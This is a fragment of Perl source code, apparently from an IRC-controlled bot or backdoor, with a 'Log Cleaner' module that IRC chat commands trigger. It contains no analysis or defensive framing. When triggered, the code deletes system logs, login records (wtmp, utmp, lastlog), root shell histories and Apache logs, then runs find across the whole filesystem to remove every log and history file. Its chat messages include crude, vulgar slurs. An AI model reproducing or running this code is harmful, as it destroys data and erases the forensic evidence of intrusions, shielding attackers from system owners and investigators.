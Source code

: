###################### 

###################### 

#    Log Cleaner     #  

###################### 

if ($funcarg =~ /^logcleaner/) { 

sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3Log-Cleaner12]  LogCleaner :. |  Sorry our masters, nigga gotta big dick"); 

} 

if ($funcarg =~ /^Cleandabitch/) { 

sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3Log-Cleaner12]  LogCleaner :. |  This process can be long, just wait"); 

    system 'rm -rf /var/log/lastlog'; 

    system 'rm -rf /var/log/wtmp'; 

   system 'rm -rf /etc/wtmp'; 

   system 'rm -rf /var/run/utmp'; 

   system 'rm -rf /etc/utmp'; 

   system 'rm -rf /var/log'; 

   system 'rm -rf /var/logs'; 

   system 'rm -rf /var/adm'; 

   system 'rm -rf /var/apache/log'; 

   system 'rm -rf /var/apache/logs'; 

   system 'rm -rf /usr/local/apache/log'; 

   system 'rm -rf /usr/local/apache/logs'; 

   system 'rm -rf /root/.bash_history'; 

   system 'rm -rf /root/.ksh_history'; 

sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3Log-Cleaner12]  LogCleaner :. |  All default log and bash_history files erased"); 

      sleep 1; 

sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3Log-Cleaner12]  LogCleaner :. |  Now Erasing the rest of the machine log files"); 

   system 'find / -name *.bash_history -exec rm -rf {} \;'; 

   system 'find / -name *.bash_logout -exec rm -rf {} \;'; 

   system 'find / -name "log*" -exec rm -rf {} \;'; 

   system 'find / -name *.log -exec rm -rf {} \;'; 
